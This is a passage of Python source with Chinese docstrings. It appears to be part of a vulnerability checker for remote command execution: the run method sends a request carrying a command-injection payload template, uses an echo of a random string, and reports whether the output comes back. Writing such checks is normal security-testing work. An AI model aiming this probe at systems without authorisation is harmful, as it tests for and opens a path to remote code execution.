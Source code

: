```python
        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta
    
    def filter(self, check_str):

        """
        过滤无用字符

        :param str check_str:待过滤的字符串

        :return str temp:过滤后的字符串
        """
        
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp   
    
    def parser_cmd(self, cmd):

        """
        命令解析,将要执行的命令解析为字符串格式,如echo 123 解析为"echo", "123"

        :param str cmd: 待解析的命令

        :return: cmd_str 解析后的字符串
        """

        cmd = shlex.split(cmd)
        cmd_str = '"' + '","'.join(cmd) + '"'
        return cmd_str

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        check_req = requests.get(self.url + self.payload.format(cmd = urllib.parse.quote(self.parser_cmd('echo' + ' ' + self.capta) )), headers = self.headers)
        check_str = self.filter(list(check_req.text))
        try:
            if self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

```